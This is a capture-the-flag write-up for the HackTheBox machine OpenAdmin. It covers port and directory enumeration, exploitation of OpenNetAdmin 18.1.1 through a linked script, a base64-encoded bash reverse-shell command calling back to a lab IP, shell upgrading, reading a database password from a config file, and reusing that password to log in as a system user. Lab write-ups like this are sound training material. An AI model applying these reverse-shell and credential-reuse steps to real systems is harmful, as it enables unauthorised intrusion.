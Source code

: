 # OpenAdmin 

![image](https://user-images.githubusercontent.com/5285547/124369170-d137d380-dc60-11eb-90cd-9aca9d30f8ef.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


## Port 80

Using gobuster i enumerated port 80 as only the default apache page loaded. 

```
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/] 
```

### Artwork

http://10.10.10.171/artwork/index.html

- Gobuster
```
/index.html           (Status: 200) [Size: 14461]
/images               (Status: 301) [Size: 321] [--> http://10.10.10.171/artwork/images/]
/main.html            (Status: 200) [Size: 931]                                          
/services.html        (Status: 200) [Size: 11749]                                        
/about.html           (Status: 200) [Size: 11156]                                        
/contact.html         (Status: 200) [Size: 8999]                                         
/blog.html            (Status: 200) [Size: 11523]                                        
/css                  (Status: 301) [Size: 318] [--> http://10.10.10.171/artwork/css/]   
/readme.txt           (Status: 200) [Size: 410]                                          
/js                   (Status: 301) [Size: 317] [--> http://10.10.10.171/artwork/js/]    
/fonts                (Status: 301) [Size: 320] [--> http://10.10.10.171/artwork/fonts/] 
/single.html          (Status: 200) [Size: 17627]  
```

### Sierra

http://10.10.10.171/sierra/index.html

- Gobuster
```
/contact.html         (Status: 200) [Size: 15853]
/blog.html            (Status: 200) [Size: 20477]
/index.html           (Status: 200) [Size: 43029]
/img                  (Status: 301) [Size: 317] [--> http://10.10.10.171/sierra/img/]
/service.html         (Status: 200) [Size: 22090]                                    
/css                  (Status: 301) [Size: 317] [--> http://10.10.10.171/sierra/css/]
/portfolio.html       (Status: 200) [Size: 13000]                                    
/js                   (Status: 301) [Size: 316] [--> http://10.10.10.171/sierra/js/] 
/about-us.html        (Status: 200) [Size: 20785]                                    
/elements.html        (Status: 200) [Size: 24524]                                    
/fonts                (Status: 301) [Size: 319] [--> http://10.10.10.171/sierra/fonts/]
/vendors              (Status: 301) [Size: 321] [--> http://10.10.10.171/sierra/vendors/]
```

Not a lot on the above two sites.

### Music

http://10.10.10.171/music/index.html

- Gobuster
```
/img                  (Status: 301) [Size: 316] [--> http://10.10.10.171/music/img/]
/contact.html         (Status: 200) [Size: 6223]                                    
/blog.html            (Status: 200) [Size: 6728]                                    
/main.html            (Status: 200) [Size: 931]                                     
/category.html        (Status: 200) [Size: 23863]                                   
/index.html           (Status: 200) [Size: 12554]                                   
/css                  (Status: 301) [Size: 316] [--> http://10.10.10.171/music/css/]
/js                   (Status: 301) [Size: 315] [--> http://10.10.10.171/music/js/] 
/artist.html          (Status: 200) [Size: 20133]                                   
/playlist.html        (Status: 200) [Size: 8885] 
```

I found a login button but it redirects to ../ona

![image](https://user-images.githubusercontent.com/5285547/124369606-4c02ed80-dc65-11eb-9237-46b771469cd4.png)


## www-data

Going to http://10.10.10.171/ona/   
gives us the openNetAdmin interface with ```verson 18.1.1```

Finding an exploit online I crafted my own from this example: https://packetstormsecurity.com/files/162516/opennetadmin85141811-exec.txt

My Exploit: https://github.com/AssassinUKG/Writeups/tree/main/hackthebox/dare/openadmin/opennetadmin

```
bash openNetAdmin.sh http://10.10.10.171/ona/ id
```

Usng my shell I was able to get a reverseshell from the box. 

Command used (bash revshell + base64 encoded + urlencoding)
```
echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNS85OTg4IDA%2BJjE%3D | base64 -d| bash
```

![image](https://user-images.githubusercontent.com/5285547/124384929-76879180-dccb-11eb-97d1-1c6e1faadf0c.png)

Upgrade your shell as usual...
```
python3 -c 'import pty;pty.spwan("/bin/bash")'
stty raw -echo;fg
reset
xterm
```

Looking aroud the system I finally find the database config file loacated
```
/var/www/html/ona/local/config/database_settings.inc.php
```
```
'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
```

## Jimmy

Trying the password for the database on the system users. Let's us in as Jimmy  

creds:
```Jimmy:n1nj4W4rri0R!```

